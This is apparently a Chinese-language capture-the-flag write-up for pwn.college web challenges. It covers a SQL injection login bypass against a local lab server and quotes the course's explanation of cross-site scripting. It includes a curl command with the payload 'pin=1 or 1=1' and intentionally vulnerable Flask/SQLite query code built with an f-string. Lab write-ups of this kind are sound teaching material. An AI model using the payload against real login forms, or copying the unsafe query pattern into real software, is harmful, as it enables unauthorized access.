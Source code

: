 
## SQLi 1

这一关有两个潜在的注入点，一个是`username`，一个是`pin`，后续的代码需要检查`username`字段必须为`admin`，所以就只剩下另外的一个注入点`pin`了。

`WHERE`字句后面是一个整体，你只要保证这个整体为`True`就可以。

`curl -L -c cookie i -v -X POST http://challenge.localhost:80/ -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&pin=1%20or%201=1`


```python
try:
    # https://www.sqlite.org/lang_select.html
    query = f'SELECT rowid, * FROM users WHERE username = "{username}" AND pin = {pin}'
    print(f"DEBUG: {query=}")
    user = db.execute(query).fetchone()
except sqlite3.Error as e:
    flask.abort(500, f"Query: {query}\nError: {e}")

if not user:
    flask.abort(403, "Invalid username or pin")
```


## XSS

我觉得题目的解释关于这几种常见漏洞的解释比较好，就抄下来了

```text
Semantic gaps can occur (and lead to security issues) at the interface of any two technologies. So far, we have seen them happen between:

    A web application and the file system, leading to path traversal.
    A web application and the command line shell, leading to command injection.
    A web application and the database, leading to SQL injection.

One part of the web application story that we have not yet looked at is the web browser. We will remedy that oversight with this challenge.

A modern web browser is an extraordinarily complex piece of software. It renders HTML, executes JavaScript, parses CSS, lets you access pwn.college, and much much more. Specifically important to our purposes is the HTML that you have seen being generated by every challenge in this module. When the web application generated paths, we ended up with path traversals. When the web application generated shell commands, we ended up with shell injections. When the web application generated SQL queries, we ended up with SQL injections. Do we really think HTML will fare any better? Of course not.

The class of vulnerabilities in which injections occur into client-side web data (such as HTML) is called Cross Site Scripting, or XSS for short (to avoid the name collision with Cascading Style Sheets). Unlike the previous injections, where the victim was the web server itself, the victims of XSS are other users of the web application. In a typical XSS exploit, an attacker will cause their own code to be injected into (typically) the HTML produced by a web application and viewed by a victim user. This will then allow the attacker to gain some control within the victim's browser, leading to a number of potential downstream shenanigans.

```
